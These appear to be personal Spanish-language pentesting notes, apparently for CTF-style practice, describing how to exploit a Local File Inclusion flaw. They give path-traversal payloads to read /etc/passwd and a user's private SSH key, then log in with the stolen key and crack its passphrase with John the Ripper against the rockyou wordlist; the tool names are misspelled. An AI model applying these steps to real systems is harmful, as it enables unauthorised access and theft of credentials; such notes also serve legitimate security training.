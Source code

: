 .k9jCuando en una url se llama a un parametro, es facil que encontremos un LFI
../../../../../../../../../../
intentaremos sacar el passwd (donde se encuentran los usuarios registrados del sistema)
la ruta de passwd /etc/passwd

por tanto pondremos

../../../../../../../../../../etc/passwd en la url como parámetro para ver si podemos acceder a passwd



si encontramos algo en el passwd que contenga /home/{x} ya tenemos un nombre de usuario

una vez que vemos algun usuario podemos buscar el id_rsa
la ruta será 

../../../../../../../../../../home/{usuario}/.ssh/id_rsa


CTRL + u para verlo bien

creamos un fichero con el nombre que queramos y lo pegamos
luego le damos permiso  600 al fichero
chmod 600 ficheroconId_rsa


luego hacemos ssh usando el id_rsa

ssh -i {fichero conRSA y permisos 600} {nombreDeUsuario}@IP



En ocasiones hay que crackear el id_rsa porque para poder conectar por ssh nos pide el salvaconducto
para eso usamos jhontheripper

ssh2jhon {fichero conRSA y permiosos 600} > hash

jhon --wordlist=/usr/share/wordlists/rockyou.txt hash



